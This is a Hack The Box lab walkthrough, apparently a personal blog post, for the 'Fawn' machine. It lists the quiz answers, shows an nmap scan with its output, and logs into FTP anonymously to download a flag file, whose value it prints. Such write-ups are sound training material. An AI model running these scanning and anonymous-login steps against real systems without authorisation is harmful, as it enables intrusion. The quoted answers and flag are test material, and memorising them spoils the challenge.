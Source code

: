 ```yaml
---
layout: post
title: "Fawn Walkthrough HTB"
categories:
     - Hack The Box
     - Tier 0
---
```


The File Transfer Protocol (FTP) is a standard communication protocol used for the transfer of computer files from a server to a client on a computer network.FTP users may authenticate themselves with a clear-text sign-in protocol, normally in the form of a username and password, but can connect anonymously if the server is configured to allow it. For secure transmission that protects the username and password, and encrypts the content, FTP is often secured with SSL/TLS (FTPS) or replaced with SSH File Transfer Protocol (SFTP).


The original specification for the File Transfer Protocol was written by Abhay Bhushan and published as RFC 114 on 16 April 1971.

---

💻️ The Target Machine is : 10.129.181.55

---

A tip I would suggest, if you don't want to constantly retype the IP address you can opt to export the address to a variable whose name can be of your chosing. 
In turn you can call the variable as `$[variableName]` the **$** is important.
Consider the command below:
```
-$ export IP=10.129.181.55 
```
The command is entered directly into the terminal that would be currently running and will be only active in that terminal.
To test the command:
```
-$ echo $IP
10.129.181.55
```
### Answering HTB Questions 

> What does the 3-letter acronym FTP stand for? 
>> file transfer protocol  

> Which port does the FTP service listen on usually?   
>> 21

> What acronym is used for the secure version of FTP? 
>> SFTP

> What is the command we can use to send an ICMP echo request to test our connection to the target? 
>> ping

> From your scans, what version is FTP running on the target?
>> vsftpd 3.0.3

> From your scans, what OS type is running on the target?  
>> Unix

> What is the command we need to run in order to display the 'ftp' client help menu?
>> ftp -h

> What is username that is used over FTP when you want to log in without having an account?
>> anonymous

Anonymous and ftp can either be used in the case above

> What is the response code we get for the FTP message 'Login successful'?
>> 230

This can be viewed when connecting to FTP. This also comes into play when analysing packets of data when using wireshark. In addition such response codes are also common in http/https services.

> There are a couple of commands we can use to list the files and directories available on the FTP server. One is dir. What is the other that is a common way to list files on a Linux system.
>> ls

> What is the command used to download the file we found on the FTP server?  
>> get

To download files in bulk you can use mget instead.

## -------------------------| ENUMARATION PHASE |------------------------------

```
-$ sudo nmap -p- --min-rate 5000 -sV -sC $IP -v -oN scan.nmap 

---snip---

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.15.232
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
Service Info: OS: Unix


---snip---

```

**`-p-`** ==> scan all the 65535 ports.
**`-sV`** ==> Enumerate the version of the service that is open.
**`-sC`** ==> Use default scrips to enumerate certain things like the version, OS
**`-v`** ==> Show me everything that the tool is doing. Being verbose.
**`-oN`** ==> On a normal file output everything there hence the filename [scan.nmap]()

From the enumaration we learn so many things like the OS type, and the file stored.
Furthermore, anonymous login is allowed.
We get to see the version of the service that is running, which is useful if that particular version has vulnerabilities that have been exploited and documented in databases (DB) like [exploitDB](https://www.exploit-db.com/).

## ----------------------------| EXPLOITAION |---------------------------------

With what we have discovered we can try and gain foothold on the machine 🤔️.

```
─$ ftp $IP             

Connected to 10.129.181.55.
220 (vsFTPd 3.0.3)
Name (10.129.181.55:olapapi): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls
229 Entering Extended Passive Mode (|||31975|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
ftp> get flag.txt 
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||39738|)
150 Opening BINARY mode data connection for flag.txt (32 bytes).
100% |***************************|    32        2.54 KiB/s    00:00 ETA
226 Transfer complete.
32 bytes received in 00:00 (0.16 KiB/s)
ftp> exit
221 Goodbye.

```

From the above you can see the response codes and their meaning which is quite helpful.
Since the flag is downloaded on our end we can easily view the contents.

> Submit root flag
>> 035db21c881520061c53e0536e44f815

